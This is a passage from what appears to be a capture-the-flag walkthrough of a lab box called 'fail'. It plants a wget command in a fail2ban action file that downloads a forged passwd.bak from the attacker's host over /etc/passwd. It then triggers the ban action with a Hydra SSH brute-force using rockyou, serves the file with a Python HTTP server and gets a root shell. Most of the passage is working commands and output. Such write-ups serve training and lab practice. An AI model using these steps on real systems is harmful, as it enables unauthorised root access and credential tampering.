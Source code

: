 ```
              wget http://192.168.49.139/passwd.bak -O /etc/passwd
[Init]

```

I have edited the `iptables-multiport.conf` file to include the `wget` command that will fetch the `passwd.bak` file and save it to `/etc/passwd`.

Now we need to do some failed login attempts to trigger the `iptables-multiport.conf` file. We can use `hydra` for this.

```
┌──(root💀nehal)-[~]
└─# hydra -l fox -P /usr/share/wordlists/rockyou.txt 192.168.139.126 ssh
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-06-14 06:36:22
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.139.126:22/
[ERROR] ssh target does not support password auth
[STATUS] 56.00 tries/min, 56 tries in 00:01h, 14344356 to do in 4269:10h, 16 active
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

The `[ERROR] ssh target does not support password auth` might indicate that the box indeed blocked our IP for successive login attempts.

```
┌──(root💀nehal)-[~]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.139.126 - - [14/Jun/2021 06:37:43] "GET /passwd.bak HTTP/1.1" 200 -
```

We can see the server successfully requests for the `passwd.bak` file.

We just need to switch over to root now.

```
fox@fail:/etc/fail2ban/action.d$ su - root
Password: 
root@fail:~# id && hostname; date
uid=0(root) gid=0(root) groups=0(root)
fail
Sun 13 Jun 2021 03:39:55 PM EDT
root@fail:~# 
```

We are successful in getting root shell. You can now read the root flag too.
